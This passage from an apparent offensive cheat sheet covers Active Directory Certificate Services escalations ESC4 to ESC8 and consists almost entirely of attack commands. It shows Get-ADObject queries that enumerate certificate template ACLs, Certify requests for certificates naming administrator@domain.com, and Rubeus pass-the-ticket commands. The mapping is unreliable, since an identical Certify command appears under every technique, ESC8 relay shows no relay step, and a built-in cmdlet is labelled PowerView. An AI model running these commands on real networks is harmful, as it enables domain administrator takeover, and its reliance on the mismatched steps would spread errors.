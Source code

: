 #### 4. ESC4 - Access Control

```powershell
# Using PowerView
Get-ADObject -LDAPFilter "(objectClass=pKICertificateTemplate)" -Properties * | Select-Object Name, nTSecurityDescriptor

# Using Certify
Certify.exe request /ca:<CA_SERVER>\<CA_NAME> /template:<TEMPLATE_NAME> /altname:administrator@domain.com
```

#### 5. ESC5 - Vulnerable PKI Object Access Control

```powershell
# Using PowerView
Get-ADObject -LDAPFilter "(objectClass=pKIEnrollmentService)" -Properties * | Select-Object Name, nTSecurityDescriptor

# Using Certify
Certify.exe request /ca:<CA_SERVER>\<CA_NAME> /template:<TEMPLATE_NAME> /altname:administrator@domain.com
```

#### 6. ESC6 - EDITF\_ATTRIBUTESUBJECTALTNAME2

```powershell
# Using Certify
Certify.exe request /ca:<CA_SERVER>\<CA_NAME> /template:<TEMPLATE_NAME> /altname:administrator@domain.com

# Using Rubeus
Rubeus.exe asktgt /user:administrator /certificate:<CERTIFICATE> /ptt
```

#### 7. ESC7 - Vulnerable Certificate Authority Access Control

```powershell
# Using PowerView
Get-ADObject -LDAPFilter "(objectClass=pKIEnrollmentService)" -Properties * | Select-Object Name, nTSecurityDescriptor

# Using Certify
Certify.exe request /ca:<CA_SERVER>\<CA_NAME> /template:<TEMPLATE_NAME> /altname:administrator@domain.com
```

#### 8. ESC8 - NTLM Relay to AD CS HTTP Endpoints

```powershell
# Using Certify
Certify.exe request /ca:<CA_SERVER>\<CA_NAME> /template:<TEMPLATE_NAME> /altname:administrator@domain.com

# Using Rubeus
Rubeus.exe asktgt /user:administrator /certificate:<CERTIFICATE> /ptt
```

